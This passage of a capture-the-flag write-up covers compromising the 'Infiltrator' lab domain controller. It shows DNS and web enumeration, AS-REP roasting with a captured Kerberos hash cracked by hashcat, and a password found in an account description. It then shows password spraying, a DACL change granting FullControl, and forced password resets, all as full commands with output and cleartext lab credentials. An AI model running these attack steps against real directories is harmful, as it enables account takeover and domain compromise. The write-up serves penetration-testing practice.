Trying Zone Transfer for infiltrator.htb on dc01.infiltrator.htb ... 
AXFR record query failed: no nameservers


Brute forcing with /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt:
_______________________________________________________________________________________

gc._msdcs.infiltrator.htb.               600      IN    A        10.129.65.151
domaindnszones.infiltrator.htb.          600      IN    A        10.129.65.151
forestdnszones.infiltrator.htb.          600      IN    A        10.129.65.151


Launching Whois Queries:
_________________________


infiltrator.htb_______________


Performing reverse lookup on 0 ip addresses:
_____________________________________________


0 results out of 0 IP addresses.


infiltrator.htb ip blocks:
___________________________


```

&nbsp;

# HTTP

If we surf manually to the page we are in front of this thing...


Now there are neither any subdomain apparently.

```
└─# ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u "http://infiltrator.htb/" -H "Host:FUZZ.infiltrator.htb" -fl 617

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://infiltrator.htb/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.infiltrator.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response lines: 617
________________________________________________

:: Progress: [19966/19966] :: Job [1/1] :: 202 req/sec :: Duration: [0:01:22] :: Errors: 0 ::

```

Nor any hidden file/folder in the web path that might contain juicy information. The website seems not holding much and the contact function seems not getting anywhere so far.

```
──(root㉿kali)-[/home/user/Downloads]
└─# dirsearch -u "http://infiltrator.htb" 
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/user/Downloads/reports/http_infiltrator.htb/_24-09-03_10-18-02.txt

Target: http://infiltrator.htb/

[10:18:02] Starting: 
[10:18:03] 403 -  312B  - /%2e%2e//google.com
[10:18:04] 403 -  312B  - /.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
[10:18:24] 403 -  312B  - /\..\..\..\..\..\..\..\..\..\etc\passwd
[10:19:00] 403 -    1KB - /assets/
[10:19:00] 301 -  153B  - /assets  ->  http://infiltrator.htb/assets/
[10:19:06] 403 -  312B  - /cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd


```


So here I had to ask for a nudge since nothing was redirecting me anywhere and I got a tips to craft a custom username list based on the members of the site.


And I created a mutated list with the default structure as (*name, surname, name.surname, n.surname, nsurname*) resulting in this list.

```
└─# cat Infiltrator/usernames.txt 
david.anderson
olivia.martinez
kevin.turner
amanda.walker
marcus.harris
lauren.clark
ethan.rodriguez
danderson
omartinez
kturner
awalker
mharris
lclark
erodriguez
d.anderson
o.martinez
k.turner
a.walker
m.harris
l.clark
e.rodriguez
david
olivia
kevin
amanda
marcus
lauren
ethan
david.a
olivia.m
kevin.t
amanda.w
marcus.h
lauren.c
ethan.r

```

I am still holding basically nothing that can help me getting anywhere else so I will move on to Kerberos service.

&nbsp;

# Kerberos/SMB

Now the only thing we can do is enumerating the possible usernames and hope that any of those holds the "Do not require pre-auth" rights.

```
┌──(root㉿kali)-[/home/user/Downloads]
└─# impacket-GetNPUsers infiltrator.htb/ -usersfile Infiltrator/usernames.txt -format hashcat
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User d.anderson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User o.martinez doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User k.turner doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User a.walker doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User m.harris doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$l.clark@INFILTRATOR.HTB:874857f189f26617eebf1b50bce0eb62$4b0a833aeca159fdd08df5439dabc8702a45a8aee9a4bb4234ffae40a937f0984eecaa7f081c5ed72bd223c5610b93bea2edeb82ad5829cd641d40a29fce28e737936ebd7bb680a3e977dca2854a3f88314b514fb610716b67b8d756abbfff82cb6371154c6e62ec2744efcbe5c1197b7fb67d95ff63e55df76b917a7970ccb71afdded9e03632fb1337cb3f15695d8875f07b3c220791ef8ea0c120c82eb921e61854922dd4fbff1511eaeab2ca3ef8e26c6a436a46e2ffbf06fd43c8f1efeb4a52eaab1a6ab5059eaf06e36ed3cb3a70ea8a643a06007eb4abc49d568a4c3035368e4bc1173d7325baa7ff001a69a1b320
[-] User e.rodriguez doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)

```

&nbsp;Nice we have some credentials! Can we crack the hash? YES we have our first credentials! `l.clarke:WAT?watismypass!`

```
─(root㉿kali)-[/home/user/Downloads]
└─# hashcat -a 0 Infiltrator/lclark.hash /usr/share/wordlists/rockyou.txt --show
Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

18200 | Kerberos 5, etype 23, AS-REP | Network Protocol

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

$krb5asrep$23$l.clark@INFILTRATOR.HTB:43f24b46a7f74c9c566d1768036d9242$1b50a2e173eebf0f826ecba6fc146e070ce9b00c7b20944ebb2ccf15d64f4a4ae0a9c8a9fb727c5265cd76b54213edb24351f6db6c0cc98b080ecae2ff2083545bfcb7a3b2fb5716dd928902054ee5a486d5ce21cb63952e47fdf548f00ffef47a8a603707644af0ee8346bbfc658d6203c524ae8e768c6c41d7451c9a169930e519ee0e50ab7166752a05db52ec48261b12097729658ab0df9e33c9a1f3d2493354be20362b12c0dc85ad0ecce378ba4e7492d11cfe3d450aa32b927c0d6d43f6a1de19f65a9d72b67f0eb3cc15240daa6e0ba71d22d83dc0adc3b1bd88ce61bfcd2e191a71ffba7aec17ef7ba4e6451bf1:WAT?watismypass!

```

&nbsp;But seems like the password might be already old? It is not working on any of the interesting services.

So can we use this to perform a password spray somehow? Seems like no.



But we know that it works in the LDAP realm, strange as we got a totally different result not than before. I willl check if I can dump remotely a screenshot of the ad via Bloodhound python.



Nice we got a dump, but before starting to anyalyze the dump in Bloodhound I will do some other enumerations.

And starting by SMB shares I don't see anything strange:

```
└─# netexec smb infiltrator.htb -u 'l.clark' -p 'WAT?watismypass!' --shares             
SMB         10.129.65.151   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         10.129.65.151   445    DC01             [+] infiltrator.htb\l.clark:WAT?watismypass! 
SMB         10.129.65.151   445    DC01             [*] Enumerated shares
SMB         10.129.65.151   445    DC01             Share           Permissions     Remark
SMB         10.129.65.151   445    DC01             -----           -----------     ------
SMB         10.129.65.151   445    DC01             ADMIN$                          Remote Admin
SMB         10.129.65.151   445    DC01             C$                              Default share
SMB         10.129.65.151   445    DC01             IPC$            READ            Remote IPC
SMB         10.129.65.151   445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.65.151   445    DC01             SYSVOL          READ            Logon server share 

```

I can now enumerate all the AD usernames and I see a password saved in the description? `k.turner:MessengerApp@Pass!`

```
──(root㉿kali)-[/home/user/Downloads]
└─# netexec smb infiltrator.htb -u 'l.clark' -p 'WAT?watismypass!' --users
SMB         10.129.65.151   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         10.129.65.151   445    DC01             [+] infiltrator.htb\l.clark:WAT?watismypass! 
SMB         10.129.65.151   445    DC01             -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         10.129.65.151   445    DC01             Administrator                 2024-08-21 19:58:28 0       Built-in account for administering the computer/domain 
SMB         10.129.65.151   445    DC01             Guest                         <never>             0       Built-in account for guest access to the computer/domain 
SMB         10.129.65.151   445    DC01             krbtgt                        2023-12-04 17:36:16 0       Key Distribution Center Service Account 
SMB         10.129.65.151   445    DC01             D.anderson                    2023-12-04 18:56:02 0        
SMB         10.129.65.151   445    DC01             L.clark                       2023-12-04 19:04:24 0        
SMB         10.129.65.151   445    DC01             M.harris                      2024-09-03 08:31:43 0        
SMB         10.129.65.151   445    DC01             O.martinez                    2024-02-25 15:41:03 0        
SMB         10.129.65.151   445    DC01             A.walker                      2023-12-05 22:06:28 3        
SMB         10.129.65.151   445    DC01             K.turner                      2024-02-25 15:40:35 3       MessengerApp@Pass! 
SMB         10.129.65.151   445    DC01             E.rodriguez                   2024-09-03 08:31:43 1        
SMB         10.129.65.151   445    DC01             winrm_svc                     2024-08-02 22:42:45 0        
SMB         10.129.65.151   445    DC01             lan_managment                 2024-08-02 22:42:46 0        

```

Now my idea is to check again with a password spray attack if any of the accounts have the same password maybe?



Ok nothing other, but can we find some kerberoastable accounts? We can check that in Bloodhound so far.



Ok not what i was hoping for, but let's dig deeper into data in bloodhound and see if something other can be good to be true.



**D.Anderson** is a very interesting account, but we don't have access to it so far. **L.Clark** is part of a custom AD group.



&nbsp;

# Attacking the AD

Something I missed here is that D.Anderson and L.Clark shares the same password...

```
┌──(root㉿kali)-[/home/user/Downloads/Infiltrator]
└─# ../kerbrute passwordspray -d 'infiltrator.htb' --dc 10.129.65.151 usernames.txt 'WAT?watismypass!'  

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 09/03/24 - Ronnie Flathers @ropnop

2024/09/03 11:05:01 >  Using KDC(s):
2024/09/03 11:05:01 >  	10.129.65.151:88

2024/09/03 11:05:01 >  [+] VALID LOGIN:	 L.clark@infiltrator.htb:WAT?watismypass!
2024/09/03 11:05:01 >  [+] VALID LOGIN:	 D.anderson@infiltrator.htb:WAT?watismypass!
2024/09/03 11:05:01 >  Done! Tested 12 logins (2 successes) in 0.187 seconds

```

As you seen the tool Kerbrute shows it very clearly where instead Netexec shows us that we are not allowed to login directly?

```
┌──(root㉿kali)-[/home/user/Downloads/Infiltrator]
└─# netexec smb infiltrator.htb -u usernames.txt -p 'WAT?watismypass!'                                        
SMB         10.129.65.151   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         10.129.65.151   445    DC01             [-] infiltrator.htb\Administrator:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.129.65.151   445    DC01             [-] infiltrator.htb\Guest:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.129.65.151   445    DC01             [-] infiltrator.htb\krbtgt:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.129.65.151   445    DC01             [-] infiltrator.htb\D.anderson:WAT?watismypass! STATUS_ACCOUNT_RESTRICTION 
SMB         10.129.65.151   445    DC01             [+] infiltrator.htb\L.clark:WAT?watismypass! 

```

Now this error seems related to a security feature in RBCD tecnology called "protected user" https://blog.whiteflag.io/blog/protected-users-you-thought-you-were-safe/

This can be checked direcly from Bloodhound:





Ok so now we know why we are getting this issue, but now we need to bypass it somehow. And going back the link from before seems like we can't get a NTLM hash or pass it anyhow but we should be able to bypass it by getting directly a valid kerberos ticket and performing a *Pastheticket* attack instead.

```
┌──(root㉿kali)-[/home/user/Downloads/Infiltrator]
└─# impacket-getST -spn ldap/dc01.infiltrator.htb infiltrator.htb/d.anderson
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

Password:
[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Getting ST for user
[*] Saving ticket in d.anderson@ldap_dc01.infiltrator.htb@INFILTRATOR.HTB.ccache
                                                                                                                                                                                              
┌──(root㉿kali)-[/home/user/Downloads/Infiltrator]
└─# export KRB5CCNAME=d.anderson@ldap_dc01.infiltrator.htb@INFILTRATOR.HTB.ccache 
                                                                                                                                                                                              
┌──(root㉿kali)-[/home/user/Downloads/Infiltrator]
└─# klist                                                                                                          
Ticket cache: FILE:d.anderson@ldap_dc01.infiltrator.htb@INFILTRATOR.HTB.ccache
Default principal: d.anderson@INFILTRATOR.HTB

Valid starting       Expires              Service principal
09/03/2024 13:19:00  09/03/2024 17:18:59  ldap/dc01.infiltrator.htb@INFILTRATOR.HTB
    renew until 09/03/2024 17:18:59

```

&nbsp;Now we can use the cache to check if ldap connection works, which does indeed!

```
┌──(root㉿kali)-[/home/user/Downloads/Infiltrator]
└─# netexec ldap infiltrator.htb -u 'd.anderson' -k --use-kcache
SMB         infiltrator.htb 445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
LDAP        infiltrator.htb 389    DC01             [+] infiltrator.htb\d.anderson from ccache 

```

Now that we can run LDAP queries on behalf of ***D.Anderson*** we need to take care of that *GenericAll* over the OU, and in this case Bloodhound suggest us that we need to extend the inheritation to all the objects in the same OU, this will allows us to gain access to the next user.



And after several tries I managed to add myself to the group all users via inheritance

```
┌──(.dacledit)─(root㉿kali)-[/home/user/Downloads/impacket]
└─# python3 examples/dacledit.py infiltrator.htb/d.anderson -target-dn 'OU=MARKETING DIGITAL,DC=INFILTRATOR,DC=HTB' -dc-ip 10.129.65.151 -action 'write' -principal 'd.anderson' -rights 'FullControl' -k -inheritance
Impacket v0.12.0.dev1+20240822.124857.3f5378ac - Copyright 2023 Fortra

[*] No credentials supplied, supply password
Password:
[*] NB: objects with adminCount=1 will no inherit ACEs from their parent container/OU
[*] DACL backed up to dacledit-20240903-152509.bak
[*] DACL modified successfully!

```

Now we can take another "screenshot" of the AD and parse via Bloodhound.



If this is true that we propagated the rights to all the siblings in the same out, now we should be able to GenericWrite over the E.rodriguez user and take another milestone?

Seems like I get a issue?

```
(LDAPS)-[dc01.infiltrator.htb]-[INFILTRATOR\D.anderson]
PV > Set-DomainUserPassword -AccountPassword 'Coglione1!' -Identity 'E.rodriguez'
[2024-09-03 15:32:20] [Set-DomainUserPassword] Principal CN=E.rodriguez,OU=Marketing Digital,DC=infiltrator,DC=htb found in domain
[2024-09-03 15:32:20] [Set-DomainUserPassword] Failed to change password for E.rodriguez
[2024-09-03 15:32:20] Failed password change attempt for E.rodriguez
(LDAPS)-[dc01.infiltrator.htb]-[INFILTRATOR\D.anderson]
PV > 


┌──(.dacledit)─(root㉿kali)-[/home/user/Downloads/impacket]
└─# bloodyAD --host "dc01.infiltrator.htb" -d "infiltrator.htb" -u "d.anderson" -k set password "e.rodriguez" 'WAT?watismypass!'
Traceback (most recent call last):
  File "/usr/local/bin/bloodyAD", line 8, in <module>
    sys.exit(main())
             ^^^^^^
  File "/usr/local/lib/python3.11/dist-packages/bloodyAD/main.py", line 144, in main
    output = args.func(conn, **params)
             ^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/local/lib/python3.11/dist-packages/bloodyAD/cli_modules/set.py", line 241, in password
    raise e
  File "/usr/local/lib/python3.11/dist-packages/bloodyAD/cli_modules/set.py", line 86, in password
    conn.ldap.bloodymodify(target, {"unicodePwd": op_list})
  File "/usr/local/lib/python3.11/dist-packages/bloodyAD/network/ldap.py", line 216, in bloodymodify
    raise err
msldap.commons.exceptions.LDAPModifyException: 
Password can't be changed before -2 days, 23:57:16.493835 because of the minimum password age policy.
                                                                                                           
```

I might need to reset the environment... And indeed it worked now:

```
┌──(.dacledit)─(root㉿kali)-[/home/user/Downloads/impacket]
└─# bloodyAD --host "dc01.infiltrator.htb" -d "infiltrator.htb" -u "d.anderson" -k set password "e.rodriguez" 'WAT?watismypass!'
[+] Password changed successfully!


//OR via powerview.py
(LDAPS)-[dc01.infiltrator.htb]-[INFILTRATOR\D.anderson]
PV > Set-DomainUserPassword -Identity 'e.rodriguez' -AccountPassword 'WAT?watismypass!'
[2024-09-03 15:45:34] [Set-DomainUserPassword] Principal CN=E.rodriguez,OU=Marketing Digital,DC=infiltrator,DC=htb found in domain
[2024-09-03 15:45:34] [Set-DomainUserPassword] Password has been successfully changed for user E.rodriguez
[2024-09-03 15:45:34] Password changed for e.rodriguez
(LDAPS)-[dc01.infiltrator.htb]-[INFILTRATOR\D.anderson]
PV > 

```

Now *E.Rodrigue*z can add herself to another AD group:



```
:
